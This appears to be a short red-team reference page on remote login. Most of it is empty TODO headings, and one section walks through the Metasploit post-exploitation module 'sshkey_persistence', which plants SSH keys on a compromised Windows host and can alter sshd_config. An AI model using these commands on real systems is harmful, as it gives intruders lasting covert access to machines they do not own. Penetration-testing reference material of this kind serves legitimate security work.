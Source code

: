 # Remote Login

## 01 - SSH

### 1.1 - Command Prompt

TODO: Fill this info

### 1.2 - Powershell

TODO: Fill this info

### 1.3 - Metasploit

```
msf > use post/windows/manage/sshkey_persistence

msf post(windows/manage/sshkey_persistence) > options

Module options (post/windows/manage/sshkey_persistence):

   Name             Current Setting                                    Required  Description
   ----             ---------------                                    --------  -----------
   ADMIN            false                                              yes       Add keys for administrator accounts
   ADMIN_KEY_FILE   C:\ProgramData\ssh\administrators_authorized_keys  yes       Admin key file
   CREATESSHFOLDER  false                                              yes       If no .ssh folder is found, create it for a user
   EDIT_CONFIG      false                                              yes       Edit ssh config to allow public key authentication
   PUBKEY                                                              no        Public Key File to use. (Default: Create a new one)
   SESSION                                                             yes       The session to run this module on
   SSHD_CONFIG      C:\ProgramData\ssh\sshd_config                     yes       sshd_config file
   USERNAME                                                            no        User to add SSH key to (Default: all users on box)

msf post(windows/manage/sshkey_persistence) > set admin <false | true>

msf post(windows/manage/sshkey_persistence) > set admin_key_file <c:\\path\\to\\administrators_authorized_keys>

msf post(windows/manage/sshkey_persistence) > set createsshfolder <false | true>

msf post(windows/manage/sshkey_persistence) > set edit_config <false | true>

msf post(windows/manage/sshkey_persistence) > set sshd_config <c:\\path\\to\\sshd_config>

msf post(windows/manage/sshkey_persistence) > set pubkey [/path/to/file.pub]

msf post(windows/manage/sshkey_persistence) > set username <username>

msf post(windows/manage/sshkey_persistence) > set session <session_id>

msf post(windows/manage/sshkey_persistence) > run
```
